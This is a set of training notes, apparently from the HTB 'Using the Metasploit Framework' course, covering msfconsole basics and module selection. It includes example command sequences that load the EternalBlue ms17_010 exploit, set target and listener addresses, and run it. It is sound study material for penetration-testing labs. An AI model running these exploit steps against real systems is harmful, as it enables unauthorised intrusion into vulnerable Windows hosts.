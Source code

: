 # Using the Metasploit Framework

> Chapter notes based on HTB "Using the Metasploit Framework". Each section includes a summary, observed commands, core concepts, usage tips, and examples.

---

## 1. Introduction to Metasploit
- Summary: Overview of framework structure (msfconsole, modules, payloads, encoders), typical workflow, and lab-safety guidelines.
- Observed commands:
  - msfconsole
  - help, search, info, use, set, show options, run, exploit, back, exit
- Concepts:
  - Modules: auxiliary, exploit, post, payload, encoder, nop, evasion
  - Datastores: global vs module options
  - Targets and payload compatibility
- Practical tips:
  - Use a dedicated lab. Update modules regularly: msfupdate or apt update metasploit-framework
  - Tab-complete options; use show advanced for extra settings
  - Use setg to persist global RHOSTS/LHOST
- Examples:
```bash
msfconsole
search smb
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.10.40
set LHOST 10.10.14.5
check
exploit
```

## 2. Module Taxonomy and Selection
- Summary: Identify correct module types and pick reliable exploits.
- Observed commands: search <term>, info <module>, show targets, show payloads
- Concepts:
  - Rank: excellent, great, good, normal, average, low, manual
  - Target IDs vs auto-targeting
- Tips:
  - Prefer higher-ranked modules; read References and DisclosureDate
  - Cross-check module docs and CVE
- Example:
```bash
search type:exploit platform:windows smb ms17_010
use 0
info
show targets
show payloads
```
